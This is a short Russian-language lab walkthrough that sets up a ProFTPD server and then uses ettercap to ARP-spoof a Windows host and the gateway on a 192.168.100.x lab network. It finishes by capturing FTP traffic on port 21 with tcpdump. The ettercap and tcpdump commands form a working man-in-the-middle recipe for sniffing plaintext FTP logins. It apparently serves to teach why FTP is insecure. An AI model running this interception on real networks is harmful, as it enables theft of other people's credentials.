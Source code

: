 Сервер FTP

Установка и запуск сервиса

```
nano /etc/hosts
```
Заменить
```
127.0.1.1 server.corp.ru server
```
Установка FTP 
```
root@server:~# apt install proftpd-basic

```

Утилита ettercap на LAN

Установка

```
lan# apt install ettercap-text-only
```

ARP спуфинг
```
win arp -a
```
```
lan# ettercap -T -M arp //192.168.100.<ip windows> // //192.168.100.1//
```
```
win arp -a
```
```
lan# tcpdump -n -s0 -A port 21
```

Произвести подключение к FTP и посмотреть трафик
